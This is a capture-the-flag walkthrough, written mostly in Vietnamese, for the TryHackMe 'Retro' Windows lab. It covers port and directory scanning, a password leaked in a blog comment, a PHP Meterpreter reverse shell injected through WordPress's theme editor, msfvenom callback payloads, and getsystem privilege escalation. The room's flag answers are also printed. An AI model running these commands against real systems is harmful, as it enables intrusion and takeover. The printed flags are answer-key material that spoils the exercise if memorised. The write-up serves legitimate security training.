# TryHackMe — Retro | Full Walkthrough

> **Room:** [Retro](https://tryhackme.com/room/retro)
> **Difficulty:** Hard
> **Author:** vodanhtieutot
> **Platform:** TryHackMe

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Web Enumeration — Gobuster](#3-web-enumeration--gobuster)
4. [Web Application Analysis — Credential Discovery](#4-web-application-analysis--credential-discovery)
5. [Initial Access — WordPress Theme Editor RCE](#5-initial-access--wordpress-theme-editor-rce)
6. [Foothold — Unstable PHP Shell & Pivot to Stable Meterpreter](#6-foothold--unstable-php-shell--pivot-to-stable-meterpreter)
7. [Privilege Escalation — getsystem (PrintSpooler)](#7-privilege-escalation--getsystem-printspooler)
8. [Flag Capture](#8-flag-capture)
9. [Flags & Answers Summary](#9-flags--answers-summary)
10. [Tools Used](#10-tools-used)

---

## 1. Overview

Room **Retro** là một máy Windows trên TryHackMe có độ khó Hard, được xây dựng xung quanh một WordPress site ẩn. Attack path đi theo chuỗi:

```
Recon → Directory Bruteforce → Credential Discovery (blog comment)
→ WordPress Admin Access → Theme Editor RCE → Meterpreter Shell
→ getsystem (PrintSpooler) → NT AUTHORITY\SYSTEM → Flags
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `10.48.182.243` |
| Machine Name | `RETROWEB` |
| OS | Microsoft Windows Server 2016 |
| Open Ports | 80 (HTTP), 3389 (RDP) |
| Attacker | Kali Linux (AttackBox) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

Bắt đầu bằng một quick scan để xác định port nào đang mở, bỏ qua host discovery với `-Pn` (vì target có thể block ping):

```bash
nmap -Pn -p- 10.48.182.243
```



Kết quả cho thấy chỉ có 2 port mở:

| Port | State | Service |
|---|---|---|
| 80/tcp | open | http |
| 3389/tcp | open | ms-wbt-server (RDP) |

> Đây là một Windows machine với web server trên port 80 và RDP trên 3389. Bước tiếp theo là fingerprint chi tiết hơn.

### 2.2 Service & Script Scan

Chạy scan nâng cao với `-sC` (default scripts), `-sV` (version detection), `-A` (aggressive) để lấy thêm thông tin:

```bash
nmap -sC -sV -A -Pn -p 80,3389 10.48.182.243
```



Thông tin quan trọng thu được:

| Detail | Value |
|---|---|
| Port 80 | Microsoft IIS httpd 10.0 |
| HTTP Server Header | `Microsoft-IIS/10.0` |
| HTTP Title | `IIS Windows Server` |
| TRACE method | Enabled (potentially risky) |
| Port 3389 | Microsoft Terminal Services |
| Target Name | `RETROWEB` |
| NetBIOS Name | `RETROWEB` |
| DNS Name | `RetroWeb` |
| OS Guess | Microsoft Windows 2016 (87%) |
| SSL cert CN | `RetroWeb` |

> **Note:** IIS default page trên port 80 nghĩa là web server đang chạy nhưng chưa có content tại `/`. Cần brute-force directory để tìm application thực sự.

---

## 3. Web Enumeration — Gobuster

### 3.1 Root Directory Scan

Dùng **Gobuster** để enumerate các thư mục và file ẩn trên web server. Extension `-x php,html,txt` để cover các file phổ biến trên IIS/WordPress:

```bash
gobuster dir -u http://10.48.182.243 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php,html,txt \
-t 50 \
-b 404,403
```



Gobuster phát hiện directory ẩn:

```
/retro    (Status: 301) [Size: 150] [→ http://10.48.182.243/retro/]
```

> Đây là câu trả lời cho question đầu tiên của room. Hidden directory là `/retro`.

### 3.2 Subdirectory Scan — /retro

Tiếp tục scan sâu vào `/retro` để enumerate cấu trúc bên trong:

```bash
gobuster dir -u http://10.48.182.243/retro \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php,html,txt \
-t 50 \
-b 404,403
```



Kết quả xác nhận đây là một **WordPress installation**:

| Path | Status | Ghi chú |
|---|---|---|
| `/index.php` | 301 | WordPress index |
| `/wp-content` | 301 | WordPress media/plugin/theme folder |
| `/wp-login.php` | **200** | Login page — target chính |
| `/license.txt` | 200 | WordPress license |
| `/wp-includes` | 301 | WordPress core includes |
| `/wp-trackback.php` | 200 | XML-RPC trackback |
| `/README.html` | 200 | WordPress readme |

> `/wp-login.php` trả về status 200 — login page hoạt động. Tiếp theo cần tìm credentials để đăng nhập.

---

## 4. Web Application Analysis — Credential Discovery

### 4.1 Khám phá Website

Truy cập `http://10.48.182.243/retro` trong browser để xem nội dung:



Website là một blog WordPress có tên **"Retro Fanatics"** — chuyên về retro games, books và movies. Tác giả của bài post là user **Wade**, đây là username tiềm năng để thử đăng nhập.

### 4.2 Tìm Credential Trong Comment

Duyệt qua các bài post trên blog, đặc biệt chú ý đến comment section. Trong bài post **"Ready Player One"**, có một comment của chính user **Wade**:



```
Wade — December 9, 2019
"Leaving myself a note here just in case I forget how to spell it: parzival"
```

> 💡 **OSINT Finding:** Wade đã vô tình để lộ password của mình trong một public comment. Đây là lỗi OPSEC nghiêm trọng — attacker không cần brute force gì cả.

Credentials thu được:
- **Username:** `wade`
- **Password:** `parzival`

---

## 5. Initial Access — WordPress Theme Editor RCE

### 5.1 Đăng Nhập WordPress Admin

Truy cập `http://10.48.182.243/retro/wp-login.php` và đăng nhập với credentials vừa tìm được:



Đăng nhập thành công với `wade:parzival`.

### 5.2 Phân Tích Attack Surface

Sau khi vào WordPress admin panel, điều hướng đến **Appearance → Themes** để xem các theme đang cài:



Phát hiện:
- Active theme: **Twenty Seventeen**
- Có **Theme Editor** trong menu Appearance — cho phép edit PHP file trực tiếp từ browser

> ⚠️ **Lỗ hổng:** WordPress Theme Editor cho phép admin chỉnh sửa PHP file của theme. Attacker có thể inject reverse shell code vào một file PHP có thể truy cập được qua HTTP, sau đó trigger nó bằng cách navigate đến URL của file đó.

### 5.3 Inject Reverse Shell vào 404.php

Điều hướng đến **Appearance → Theme Editor**, chọn theme **Twenty Seventeen** và mở file **404 Template (404.php)**:

```
http://10.48.182.243/retro/wp-admin/theme-editor.php?file=404.php&theme=twentyseventeen
```



Tạo reverse shell payload bằng **msfvenom** với định dạng PHP Meterpreter:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=5555 -f raw > shell.php
```

Thay toàn bộ nội dung của `404.php` bằng PHP Meterpreter payload vừa tạo, sau đó bấm **Update File** để lưu.

### 5.4 Trigger Reverse Shell

Mở `msfconsole` và setup listener trước khi trigger:

```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 5555
run
```

Sau đó navigate trình duyệt đến URL của `404.php`:

```
http://10.48.182.243/retro/wp-content/themes/twentyseventeen/404.php
```





```
[*] Started reverse TCP handler on 192.168.183.178:5555
[*] Sending stage (42137 bytes) to 10.48.182.243
[*] Meterpreter session 3 opened (192.168.183.178:5555 → 10.48.182.243:50386)
```

---

## 6. Foothold — Unstable PHP Shell & Pivot to Stable Meterpreter

### 6.1 Vấn Đề Với PHP Shell

PHP Meterpreter session nhận được không ổn định — vì nó phụ thuộc vào HTTP request đang giữ kết nối, bất kỳ timeout hay interrupt nào cũng sẽ kill session. Cần pivot sang một Meterpreter session Windows native ổn định hơn.

**Chiến lược:** Dùng PHP shell hiện tại để upload và execute một Windows `.exe` Meterpreter payload.

### 6.2 Tạo Windows Meterpreter EXE

Trên Kali, tạo `shell.exe` — một Windows x64 Meterpreter reverse TCP payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe > shell.exe
```



```
Payload size: 510 bytes
Final size of exe file: 7680 bytes
```

### 6.3 Upload & Execute shell.exe

Setup listener thứ hai trong `msfconsole` cho port 4444:

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
run
```

Trong PHP Meterpreter session hiện tại, upload và chạy `shell.exe`:

```
meterpreter > upload shell.exe
meterpreter > execute -f shell.exe
```



```
[*] Uploading  : /home/vodanhtieutot/shell.exe → shell.exe
[*] Completed  : /home/vodanhtieutot/shell.exe → shell.exe
meterpreter > execute -f shell.exe
Process 3124 created.
```

### 6.4 Nhận Windows Meterpreter Session Ổn Định

Listener trên port 4444 nhận được kết nối từ process `shell.exe`:



```
[*] Started reverse TCP handler on 192.168.183.178:4444
[*] Sending stage (232006 bytes) to 10.48.182.243
[*] Meterpreter session 1 opened (192.168.183.178:4444 → 10.48.182.243:50405)

meterpreter > dir
Listing: C:\inetpub\wwwroot\retro\wp-content\themes\twentyseventeen
```

Shell đang chạy trong context của IIS web server — là user có quyền hạn thấp. File `shell.exe` cũng xuất hiện trong directory listing (size 7680, tạo lúc 10:17:11).

---

## 7. Privilege Escalation — getsystem (PrintSpooler)

### 7.1 Enumerate Filesystem — Phát Hiện Flag Không Có Quyền

Từ Meterpreter shell, navigate đến `C:\` để tìm flag:

```
meterpreter > shell
C:\> dir
C:\> cd Users
C:\Users> dir
C:\Users> cd Wade
Access is denied.
```


Kết quả cho thấy:
- `C:\Users\Administrator` — cần SYSTEM/Admin quyền
- `C:\Users\Wade` — **"Access is denied"** — user Wade có Desktop riêng với flag
- Shell hiện tại chạy dưới quyền IIS service account, không đủ để truy cập

### 7.2 Privilege Escalation với getsystem

Quay lại Meterpreter prompt và thử lệnh `getsystem` — Metasploit's built-in privesc toolkit tự động thử nhiều technique:

```
meterpreter > getsystem
```



```
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

> 🎯 **Privilege Escalation thành công!** `getsystem` tự động khai thác **Named Pipe Impersonation qua PrintSpooler** (technique 5).

**Giải thích technique:**
- PrintSpooler service chạy dưới quyền SYSTEM
- Metasploit tạo một named pipe giả và ép PrintSpooler connect vào đó
- Khi SYSTEM-level service kết nối, Meterpreter impersonate token của nó
- Kết quả: leo quyền từ IIS service account lên `NT AUTHORITY\SYSTEM`

---

## 8. Flag Capture

### 8.1 User Flag (user.txt)

Với SYSTEM privileges, truy cập Desktop của user **Wade**:

```
C:\Users\Wade\Desktop> type user.txt.txt
```


> 🚩 **user.txt:** `3b99fbdc6d430bfb51c72c651a261927`

### 8.2 Root Flag (root.txt)

Tiếp theo, truy cập Desktop của **Administrator**:

```
C:\Users\Administrator\Desktop> type root.txt.txt
```


> 🚩 **root.txt:** `7958b569565d7bd88d10c6f22d1c4063`

---

## 9. Flags & Answers Summary

| Question | Answer |
|---|---|
| A web server is running on the target. What is the hidden directory which the website lives on? | `/retro` |
| user.txt | `3b99fbdc6d430bfb51c72c651a261927` |
| root.txt | `7958b569565d7bd88d10c6f22d1c4063` |

---

## 10. Attack Chain Summary

```
[1] Nmap -Pn -p-
        → Port 80 (IIS), Port 3389 (RDP)

[2] Nmap -sC -sV -A
        → Windows Server 2016, RETROWEB, IIS 10.0

[3] Gobuster dir /
        → /retro (Status: 301)

[4] Gobuster dir /retro
        → /wp-login.php, /wp-content → WordPress confirmed

[5] Browse /retro
        → Blog "Retro Fanatics", author: Wade
        → Comment leak: "parzival" → credentials wade:parzival

[6] Login /retro/wp-login.php
        → Admin access

[7] Appearance → Theme Editor → 404.php
        → Inject PHP Meterpreter payload
        → Trigger via URL: /wp-content/themes/twentyseventeen/404.php

[8] msfconsole multi/handler (port 5555)
        → PHP Meterpreter session (unstable)

[9] msfvenom → shell.exe (windows/x64/meterpreter/reverse_tcp)
        → upload + execute từ PHP shell

[10] msfconsole multi/handler (port 4444)
        → Windows Meterpreter session (stable)

[11] getsystem
        → Technique 5: Named Pipe Impersonation (PrintSpooler)
        → NT AUTHORITY\SYSTEM

[12] type C:\Users\Wade\Desktop\user.txt.txt       → user flag ✓
     type C:\Users\Administrator\Desktop\root.txt.txt → root flag ✓
```

---

## 11. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `gobuster` | Web directory brute-forcing |
| Firefox | Manual web application browsing |
| `msfvenom` | Payload generation (PHP shell, Windows EXE) |
| `msfconsole` | Exploit framework, multi/handler listener |
| Meterpreter | Post-exploitation (upload, execute, getsystem) |
